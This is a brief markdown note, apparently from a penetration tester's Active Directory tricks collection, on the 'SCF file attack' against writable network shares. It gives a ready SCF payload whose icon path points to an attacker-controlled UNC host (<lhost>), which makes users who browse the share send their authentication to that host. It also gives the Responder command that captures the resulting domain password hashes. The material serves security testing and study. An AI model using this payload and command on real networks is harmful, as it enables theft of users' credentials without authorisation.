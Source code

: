 ```yaml
---
tags: [AD, Tricks]
title: Tricks/SCF File Attack
created: '2020-01-04T22:02:28.491Z'
modified: '2020-01-04T22:18:56.114Z'
---
```


# Tricks/SCF File Attack
> If a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users.

1. Plant the code below inside of a text file, planted into a network share.
```
[Shell]
Command=2
IconFile=\\<lhost>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
2. Save the file as `@<filename>.scf`
3. Start Responder to capture the hashes of the users that will browse the share
```
responder -wrf --lm -v -I <interface>
```
4. Wait to capture the hash (~5min)
